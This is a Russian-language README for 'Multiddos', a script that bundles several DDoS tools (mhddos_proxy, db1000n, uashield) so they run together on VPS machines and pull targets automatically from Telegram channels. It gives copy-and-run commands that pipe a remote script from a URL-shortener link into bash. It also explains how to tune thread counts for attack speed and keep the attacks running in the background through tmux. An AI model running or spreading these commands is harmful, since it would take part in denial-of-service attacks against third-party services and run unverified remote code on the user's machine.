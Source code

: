## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше.

Если у вас слабый процессор, то можно уменьшить количество потоков (threads) c 1000 (по умолчанию) до 500:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -t 500 && tmux a
```
Увеличивать количество потоков не рекомендуется, если вы точно не уверены в том, что делаете. Так как это может привести к противоположному результату - снижению скорости атаки.

## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.

## Запуск в фоне
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но без автоматического подключения к сессии Tmux. То есть программы будут запущены как обычно, но не будут выведены на экран. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.
 
</details>

## Выбор режима


<details>
  <summary>развернуть</summary>
  

Multiddos запускается по умолчанию с gotop, multiddos и db1000n. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop или db1000n. Или добавить в нее утилиты: uashield, vnstat (мониторинг трафика), matrix (эффект матрицы).

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

`-d` убрать db1000n

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+u` добавить uashield

`+v` добавить vnstat -l

`+m` добавить matrix

Пример команды:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d +m && tmux a
```
убрать db1000n и добавить matrix

</details>

## Решение проблем
<details>
  <summary>развернуть</summary>
 
Скрипт может не дружить с запуском на виртуалке, или даже на обычном ПК, подключенном к Интернету через Wi-Fi. Возможны глюки сетевого адаптера. Вероятно большое кол-во сетевых пакетов перегружает некоторое сетевое оборудование. Ошибки вылазят самые разнообразные. Пробуйте перезагрузить систему и запустить снова.

На vps и ПК подключенных через Ethernet такие проблемы как правило не наблюдаются.
 
</details>